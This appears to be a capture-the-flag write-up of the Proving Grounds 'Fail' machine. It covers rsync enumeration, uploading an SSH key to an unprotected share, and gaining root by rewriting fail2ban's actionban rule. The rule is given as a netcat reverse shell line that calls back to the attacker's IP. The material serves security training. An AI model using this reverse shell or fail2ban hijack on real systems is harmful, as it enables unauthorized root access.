```yaml
---
layout: single
title: Fail - Proving Grounds Practice
date: 2023-06-28
classes: wide
header:
  teaser: /assets/images/htb-writeup-waldo/linux.png
categories:
  - provinggrounds
  - infosec
tags:
  - provinggrounds
  - linux
  - intermediate
  - rsync
  - fail2ban
---
```


## Linux

![](/assets/images/htb-writeup-waldo/linux.png)

This blog post is a writeup of the Fail machine from Proving Grounds Practice.

### Summary
------------------
- The server runs a Rsync service which shares a /home folder without password.
- Uploading a SSH key to this shared folder allows us to connect via SSH as fox user.
- Fox user belongs to fail2ban group so we are able to modify some config files from this service.
- Modifying /etc/fail2ban/action.d/iptables-multiform.conf and changing the actionban rule by a reverse shell line we are able to catch a reverse shell as root user.

### Detailed steps
------------------

### Enumeration

This machine has only two open ports --> 22-SSH and 873-RSYNC

I started as always just enumerating the open ports with:
```
nmap -Pn -p- 192.168.186.126
```
![nmap1](\assets\images\pg-practice-fail\1.JPG)

I found a `RSYNC` service which is a remote and local file synchronisation tool.
Nmap has a script to enumerate this service:
```
nmap -Pn -sV --script=rsync-list-modules -p 873 192.168.186.126
```
![rsync](\assets\images\pg-practice-fail\4.JPG)

As we can see in the picture, Rsync it's sharing a folder named fox.

### Explotation

In order to exploit Rsync service, I tried to connect to fox folder using netcat:
```
@RSYNCD: 31.0
fox
```
![rsync2](\assets\images\pg-practice-fail\6.JPG)

The response from Rsync was OK which means that no password is needed to connect to this folder.

I used rsync to download the folder but it was empty.
![rsync3](\assets\images\pg-practice-fail\7.JPG)

Having in count that there is a SSH service i tried to create a `SSH key` to upload to the shared folder and log in as fox user.

	1- Generating the SSH key:
	![rsync4](\assets\images\pg-practice-fail\9.JPG)
	
	2- Uploading the key to the server:
	![rsync5](\assets\images\pg-practice-fail\13.JPG)
	
	3- Connecting via SSH with our key:
	![rsync6](\assets\images\pg-practice-fail\14.JPG)

Being fox user I was able to find the user flag:
![flag1](\assets\images\pg-practice-fail\15.JPG)


### Privilege escalation

I found that fox user belongs to the `fail2ban` group.
![user](\assets\images\pg-practice-fail\16.JPG)

Fail2ban scans log files and bans IPs that show the malicious signs -- too many password failures, seeking for exploits, etc.

Belonging to fail2ban group we are able to modify some configuration files.

In /etc/fail2ban/jail.conf file I was able to find the bantime (1 minute), numer of failures (2) and how much time the server bans a host (10 minutes).
![user](\assets\images\pg-practice-fail\17.JPG)

Knowing this I decided to modify /etc/fail2ban/action.d/iptables-multiform.conf which contains the `actionban` rule.
This rule sets the action the server will take when a host is banned. 

I modified this file to open a reverse shell when a host is banned:

File permissions
![actionban](\assets\images\pg-practice-fail\18.JPG)

```
actionban = /usr/bin/nc -e /usr/bin/bash 192.168.45.240 5566
```
![actionban2](\assets\images\pg-practice-fail\19.JPG)

In order to catch the reverse shell I opened a netcat listener and tried to login via SSH to get banned.
![actionban3](\assets\images\pg-practice-fail\20.JPG)

Once I get banned from the server I was able to catch the shell as root user:
![actionban4](\assets\images\pg-practice-fail\21.JPG)

Root flag:
![actionban5](\assets\images\pg-practice-fail\22.JPG)